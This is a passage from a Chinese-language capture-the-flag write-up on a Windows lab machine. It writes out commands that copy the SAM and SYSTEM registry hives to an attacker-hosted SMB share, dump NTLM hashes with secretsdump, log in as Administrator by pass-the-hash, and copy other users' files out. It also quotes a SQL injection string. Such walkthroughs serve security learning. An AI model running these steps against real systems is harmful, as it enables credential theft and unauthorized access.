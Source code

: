     python3 /usr/share/doc/python3-impacket/examples/smbserver.py hack . -smb2support

下载文件到攻击机：

    *Evil-WinRM* PS C:\Users\xyan1d3> copy sam \\10.14.39.48\hack
    *Evil-WinRM* PS C:\Users\xyan1d3> copy system \\10.14.39.48\hack

使用secretsdump.py进行本地提取：

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system ./system -sam ./sam LOCAL

利用Administrator的ntlm hash登录：

    evil-winrm -i 10.10.37.43  -u Administrator -H 9689**********210177f0c

root.xml:

    $cred = Import-Clixml -Path root.xml

报错，我们将那段数据丢到cyberchef，并使用Magic，就能得到flag

查看cookie.json，是base64,将其解码

    Look this is your cookie.
    FunFact : This cookie can change its own flavour automatically. To test it just think of your favourite flavour.

    And stop putting 'OR '1'='1 inside login.php

    Enjoy your Cookie  

在c:\users\twilliams下发现可疑exe

    robocopy /b twilliams xyan1d3

该exe执行之后报错，将其传回攻击机：

    copy "definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_not_a_flag.exe" \\10.14.39.48\hack

攻击机分析：

    strings ./flag.exe -> 无果
    cat ./flag.exe -> 给出了flag

最高机密：

    et-ChildItem -Path c:\*secret* -Recurse -Force

    C:\Program Files\Top Secret\top_secret.png

将其下载到攻击机并查看：

    :wq

卡的要命
